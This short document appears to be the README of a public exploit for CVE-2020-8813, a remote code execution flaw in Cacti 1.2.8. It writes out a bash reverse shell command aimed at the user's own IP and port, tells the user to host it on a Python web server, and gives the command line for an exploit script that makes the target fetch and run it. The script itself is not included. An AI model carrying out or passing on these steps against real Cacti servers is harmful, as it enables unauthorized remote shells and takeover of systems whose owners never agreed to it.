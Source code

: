#CVE: CVE-2020-8813
#Version: 1.2.8
#Cacti 1.2.8 RCE

Create a shell executable

  eg.: echo -ne 'bash -i >&/dev/tcp/LocalIP/PORT 0>&1' >shell

Start a Web-Server with your reverse shell inside webroot

  eg.: python3 -m http.server

Fire the exploit

  Usage: python3 expoit.py TargetIP LocalIP ShellName

![image](https://user-images.githubusercontent.com/56730389/115649283-6a5f7b00-a2fd-11eb-848a-52fad8727f79.png)
